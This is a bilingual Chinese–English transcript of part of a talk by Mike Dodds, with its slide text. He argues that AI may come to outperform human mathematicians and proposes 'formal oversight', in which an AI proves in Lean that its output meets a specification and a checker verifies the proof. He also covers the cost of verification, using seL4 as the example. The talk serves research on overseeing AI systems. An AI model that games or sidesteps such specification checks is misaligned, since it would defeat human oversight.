

**幻灯片文字 / Slide text**

```
Cheap-proof-topia
- AIs wildly better than humans
- Analogy:  math AI ≈ chess AI
Why?
- AI gains on math aren’t slowing
- Proofs are a good training signal
- Strongly complementary to SWE,
task solving, reasoning etc
```

Mike Dodds在我看来，所谓“廉价证明的乌托邦”，就是 AI 在所有方面，全面地、普遍地，比任何人类数学家都更强。这就是我提出的可能性。我知道，有些人可能不同意。但我认为，我们应该把它纳入概率分布。它并非不合理，应该被认真考虑。Well, so cheap proof topia that in my view is the AI is comprehensively, generically better than any human mathematician at everything. Right? That is the kind of like claim I'm making, right? And yeah, I think that like people probably don't agree, right? I think that's part of like the probability distribution we should have. Like I don't think that's implausible. And I think we should consider that as a possibility.

我想到的类比，是数学 AI 与国际象棋 AI。很长一段时间里，人类下棋比 AI 好；随后，有一段时期，人类与 AI 的水平相近。而现在，非常明显，没有人类能击败最强的国际象棋 AI。And I think that sort of the analogy is sort of like math AI is like chess AI. Like there was a long time when humans were better than AIs at chess, and there was an era where the humans and the AIs were kind of comparable in chess. And now it's very obvious that no human can beat the best AIs at chess, right?

AI 在各种棋局中，都已经全面超过人类，甚至总能击败最优秀的人类棋手。看看刚才那些能力曲线，它们确实相当惊人。我不觉得，认为我们可能进入那样的世界，是一个疯狂想法。You know, the the AI has become like comprehensively better at every kind of chess game. It will always beat even the best humans. And I think that there's like a there is, you know, I mean, you know, those capability curves, they look pretty impressive. Like I don't think it's like crazy to think that might be the world that we live in.

## 改变国际象棋与国际象棋Changing Chess vs. Chess

当然，也可能有这样的世界：AI 只是成为人类数学家的优秀助手。而且，我觉得，我们会在这样的世界中停留一段时间。为什么要相信这一点？因为 AI 的能力，还在不断变强。另一个因素是，证明是非常好的训练信号，因为我们可以判断，证明究竟做对了没有。But there are kind of like worlds where like the AIs just become like very good as assistants to human mathematicians. And that'll be the world for a while, I think. I mean, I think the evidence, why you should think this? Well, those AI capabilities keep on capabilitying. Um Proofs are a very good training signal. I think that's another thing is like, you know, we can tell whether we got the proof right.

我们可以建立这些证明的数据集。而且，很多任务与软件工程、任务求解和推理高度类似，这些也都是 AI 正在迅速进步的方面。所以，如果它们在一般推理、任务求解、软件工程上进步，我们大概也会看到，它们在数学上进步。And like this we can build data sets of these proofs. And I think a lot of these tasks are strongly analogous to software engineering, task solving, reasoning, things that the AIs are also kind of like improving on very quickly. And so if we see them getting better at like reasoning in general, task solving, software engineering, we probably will see them kind of get better at math. Okay.

幻灯片 59 Slide 59



**幻灯片文字 / Slide text**

```
Trust and AI
AI does math
Proofs as code
Formal oversight
```

[轻哼] 好，数学解决了。数学，我们做完了。[笑声] 非常抱歉，我专门写这句话，就是想惹大家不高兴。假设，我们有了非常擅长数学的 AI。那么，某种意义上，问题就是：“数学到底有什么用？”“完全没用。”[snorts] — So like Okay, so Okay, so we solved math. Okay, we did math. Um — [laughter] — I'm very sorry. I wrote that to specifically to annoy people. Um so Okay, so like suppose we have like really good AI like AIs to do math. Well, in some sense the question is sort of like math what is it good for? Absolutely nothing.

数学会不会更像国际象棋？当我们有了非常强的数学 AI，大家说：“很好，可这究竟改变了什么？”也许没有改变多少。还是说，我们能把这些能力用于其他事情？我更倾向于后者。我觉得，数学是非常重要的事。Um is it like kind of like is math more like chess that when you have like really good math AIs, everyone's like, "Okay, well, that was great. But like what does this change?" Maybe it doesn't change that much. Or is it like we can use those for other things? Like I tend to think more of the latter that math is a huge deal.

## 通过形式化验证实现监督Oversight Through Formal Verification

幻灯片 60 Slide 60



**幻灯片文字 / Slide text**

```
Trusted
Untrusted
Okay we solved math, what about everything else?
AI math theorems
AI-built systems
AI actions
Theorems are true!
System is secure,
safe, correct
Actions are allowed,
helpful, harmless
```

那么，具体能用来做什么？我们当然想要其中的一些能力：监督 AI 系统，让 AI 构建的系统安全、正确，让 AI 的行动有帮助、无害，等等。And but like what are the some concrete things we could use it for? Well, we definitely want these things like some of these things. Like we want to kind of be able to under oversee AI systems. Um we want the AIs be able systems to be secure and correct. We want AI actions to be helpful and harmless, all these kind of stuff.

幻灯片 61 Slide 61



**幻灯片文字 / Slide text**

```
Idea: formal oversight
```

这就回到了我更熟悉的形式化验证传统。也许，我们可以把证明作为一种监督技术，用来监督 AI 在做什么，确保它交付我们想要的东西。有些人把这个想法称为“形式化监督”。So and this is where it kind of comes back to me like more in the formal verification tradition. Maybe we can use like proofs as a kind of oversight technology as a way to kind of oversee what AIs are doing and to be sure that they give us what we want. This is an idea that I think some people have called like formal oversight.

**展开前面的幻灯片（62–63）Show preceding slides (62–63)**

幻灯片 62 Slide 62



**幻灯片文字 / Slide text**

```
Formal oversight
some_speciﬁcation.lean
Problem description
math AI
```

幻灯片 63 Slide 63



**幻灯片文字 / Slide text**

```
math AI
Formal oversight
some_speciﬁcation.lean
Problem description
Produce:
-
Proposed solution
-
Proof of speciﬁcation
```

幻灯片 64 Slide 64

[figure not shown]

**幻灯片文字 / Slide text**

```
math AI
Formal oversight
some_speciﬁcation.lean
Problem description
checker
Produce:
-
Proposed solution
-
Proof of speciﬁcation
```

想法是，你有一个问题描述，有一份用 Lean 写成的、表达我们需求的规格，然后，向 AI 提出要求。这里不一定是数学 AI，也可以是一般的 AI。So, the idea here is that like you have some problem description, you have some specification written in Lean for what we want, and then we ask the AI, I'm not a math AI suppose just an AI in general.

我们说：“请提出一个解决方案，并给我一份证明，证明它确实满足规格。”然后，让 Lean 检查，它是否真的解决了我们希望解决的问题。We sort of say, "Hey, produce a solution and then propose a solution and give me a proof that you actually meet the specification." And then we can sort of ask Lean to kind of check that it actually solved the problem that we wanted.

幻灯片 65 Slide 65



**幻灯片文字 / Slide text**

```
some_specification.lean
Safety properties, eg:
- Memory safety
- Process isolation
- Encryption
Functionality:
- You got what you wanted
- You are happy!
```

这可能非常好，因为我们可以借助 Lean，运用许多成熟的编程语言技术，也就是我、Zach 和很多人整个职业生涯都在研究的那些东西，处理内存安全、进程隔离、加密等问题，表达系统的功能，说明它确实交付了你想要的东西，让你满意。So, this is potentially like really nice because we can use Lean using a bunch of like very well known PL techniques, the sort of thing that me and Zach and lots of other people have spent our careers on, to do things like memory safety, process isolation, encryption, these kinds of things, you know, to represent like the functionality of things, like to say what, you know, you got what you wanted, you are happy.

**展开前面的幻灯片（66）Show preceding slides (66)**

幻灯片 66 Slide 66



**幻灯片文字 / Slide text**

```
AI stupid
AI clever
Are AI actions
understandable?
Scalable formal oversight
Time
```

幻灯片 67 Slide 67



**幻灯片文字 / Slide text**

```
AI stupid
AI clever
Are AI actions
understandable?
Can AI prove it met a
speciﬁcation?
Scalable formal oversight
Time
```

如果能在构建系统时做到这一点，会非常好。我们可以把这些要求编码成 Lean 规格。这里有一个星号，我稍后会解释。这尤其好，是因为在谈监督时，我们可能会预期：AI 越聪明，我们越难理解它在做什么。This would be a very nice thing if we could do this when we're building systems. And we can encode these into kind of like Lean specifications. There are There's an asterisk there. I'll talk about that in a moment. So, this is like a particularly nice thing because when we're sort of talking about oversight, like we might expect that as the AI gets cleverer, that it's more difficult to understand what it's doing.

这不一定是因为它恶意，而只是因为，比如，AI 想提交一个六十万行的拉取请求。也许，那就是它合理的下一步；但你用自己小小的、湿乎乎的肉质大脑，根本没法合理审查一个六十万行的拉取请求。Not because it's malicious, but just because it's going to be doing like I don't know, your AI wants to do a sort of 600,000 line pull request, right? You know. And maybe it's like that's the right logical step for it to take, but like you with your tiny wet meat human brain cannot review a 600,000 line pull request reasonably.

## 形式化验证在软件系统中的演变The Evolution of Formal Verification in Software Systems

因此，AI 越强，我们越难理解它做的事情。但好处在于，它越强，数学能力越好，也就越有能力证明规格。因此，利用形式化验证来监督 AI，会越来越可行。这是一种能随 AI 能力增长而扩展的监督方式。And so like as the AI gets more capable, it's going to be harder to understand what it does. But the good thing is that as it gets better, the AI is going to be more able to prove like specifications because it's becoming become more mathematically capable. And so it becomes more viable to do sort of oversight using formal verification. So, this is a kind of like oversight that kind of scales with like AI capabilities.

幻灯片 68 Slide 68



**幻灯片文字 / Slide text**

```
Problem 1: proof is
very hard
```

幻灯片 69 Slide 69



**幻灯片文字 / Slide text**

```
Some formal veriﬁcation successes (pre-AI)
- seL4 - veriﬁed microkernel
- HACL* - veriﬁed crypto library
- Internal veriﬁcation teams at AWS, Intel, MS
- Various Galois things
NOT a huge industry
```

这个领域很棒，我很喜欢，我的心也属于形式化验证。但老实说，整个行业并不大。确实有一些真正的成功，比如 seL4 这样非常了不起的项目，还有很多其他进展，也有很多验证团队。但总体上，世界上的大多数东西，几乎全部东西，都没有经过形式化验证。Um and, you know, it's great and I love it and my heart is with formal verification, but like the industry is not very big, to be honest. And there have been some real successes, things like SEL4 and seL4 are amazing projects, lots of other things that have happened, lots of verification teams out there, but in aggregate, most of the world, nearly all of the world is not formally verified.

幻灯片 70 Slide 70



**幻灯片文字 / Slide text**

```
seL4 - code / proof (c. 2009)
seL4 code
(~8.5k loc C)
seL4 proof
(~165k loc Isabelle)
```

看看这些技术，就很容易明白原因。以经过验证的微内核 seL4 为例，它的 C 代码大约 8,500 行，而 Isabelle 证明是 165,000 行。这可不轻松。And if you look at like these kinds of technologies, I think it becomes very obvious why this is the case. So, here's an example from SEL4, which is a verified microkernel. And here we have like the SEL4 code is 8 and 1/2 thousand lines of C, and the Isabelle proof is 165,000 lines. Like that's rough.

另一个问题是，修改 C 代码时，也需要相应修改一部分 seL4 证明。这种技术，在生产环境里很不容易使用，成本非常高。And like the other problem here is like when you change that C code, some of the SEL4 proofs have to change as well. This is a very unamenable kind of technology to use in a production environment. It's very expensive.

对于 seL4，这样做有意义，因为它属于关键安全基础设施。但如果要做更大规模的事情，比如验证 Linux 内核，按照这种比例，似乎就不太可行了。And like for SEL4 it makes sense because SEL4 is like a critical security infrastructure, but it's very hard to do like a large, you know, you verifying the Linux kernel, for example, seems like a it's not going to work, right? With these kinds of like ratios.

## 证明与理论渐近性：为什么需要更多证明Proof vs. Theoretical Asymptotics: Why Do We Need More Proof

这些数字大约来自 2009 年。我想，现在的规模，已经到了大约一百万行手写证明。构建如此规模的东西，需要投入大量人的时间。不过，现在我们也许有了 AI。也许，我们可以说：证明“曾经”很昂贵。请说。Um and this is circa 2009. I think the current ratio is something like I think it's about a million lines of like handwritten proof, which is like that's a lot of people's time to build out something of that scale. Um But now maybe we have the AIs. Maybe what we're saying is like proof used to be expensive. Yeah, go ahead.

Audience关于上一张幻灯片，有一个稍微岔开的话题。Slightly tangential question on the last slide.

你是否理解，为什么会这样？不只是数量级的问题，代码与证明之间，是否存在某种渐近意义上的增长差异？Do you have any sense of why that is? And and maybe not just in magnitude, but what do you think there's like an asymptotic divergence between code and proof for any reason?

Mike Dodds你是问，我为什么认为需要这么多证明吗？我想，证明本身就是很难。Well, why do why do I think there's so much proof? Um I But I think proof is just hard, right?

seL4 是一个特别困难的例子，因为你要表达内核中很多深层的安全性质。比如，进程 A 和进程 B 之间，不存在某种信息流连接，诸如此类。You know, it's just like I mean you it's I still force like a particularly difficult example cuz you're sort of trying to state a lot of deep security properties about the kernel, things like you know, process A and process B are sort of like not connected by, you know, information the information flows, things like that.

